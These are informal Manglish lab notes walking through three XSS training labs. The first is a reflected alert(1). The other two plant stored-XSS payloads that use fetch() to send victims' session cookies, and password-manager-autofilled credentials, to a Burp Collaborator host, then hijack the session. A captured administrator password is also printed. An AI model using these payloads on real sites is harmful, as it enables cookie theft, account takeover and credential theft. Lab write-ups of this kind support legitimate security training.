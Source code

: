 ## XSS:
-->You can confirm most kinds of XSS vulnerability by injecting a payload that causes your own browser to execute some arbitrary JavaScript

    Lab-1(Reflected XSS into HTML context with nothing encoded)
-->ivide lab il search functionil reflected xss und
-->so searchil -><script>alert(1)</script> koduth search chythal xss trigger aakum

=============================================================

    Lab-2(Exploiting cross-site scripting to steal cookies)
-->ivide namal stored xss aan chyunath
-->ivide ethengilum blog open chyuka enit comment idanam
-->ithil comment: enna option il ee payload idanam:
 <script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

enit baaki parameter fill chyth submit chyanam
-->athin shesham collaborator client il poi poll now adichal aa sitel il vere users vanath kanam.so avarude session:cookie eduthit proxy intercept on koduthit home button click chyuka enit athile session: cookie replace chyuka enit forward adichal namal aa user aayi marum.

=============================================================

      Lab-3(Exploiting cross-site scripting to capture passwords)
-->ividem stored xss aan namal chyunath
-->ivide njan lab ile karyam chyunathin mumb just commentil ingane add chyth <script>alert("hai"')</script> test chyth noki.enit veendum aa blog il poyapol ath trigger akunund
-->so ini namuk vendath enthenal chela users avarude password manager il passwords store chyth vekum so ath namuk ee xss vazhi edukanam.ath engane enal namal oru site il login chyumbol athil username,password oke html attribute aaya name="password" ,name="username" enn koduthitundakum.athil aan ath label chyunath.so namal login chythathin shesham inspect->console->il poi document.password ennadichal kanam.ithan namuk vendath
-->so puthiya oru blog il poi ee payload comment aayi add chyanam:

<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">

enit baki parameter fill chyanam.enit post comment click chyuka 
-->ini collaborator il poi poll now adikumbol aa page view chytha users inte password namuk kitum (if it is stored in password manager)
-->athin collaborator il HTTP eduthit request to collaborator edukuka athil undakum aa particular user use chytha request athil thazhe aayi administrator:ozczdu8xsmmkjpqf07hv  enn kanam.aayi
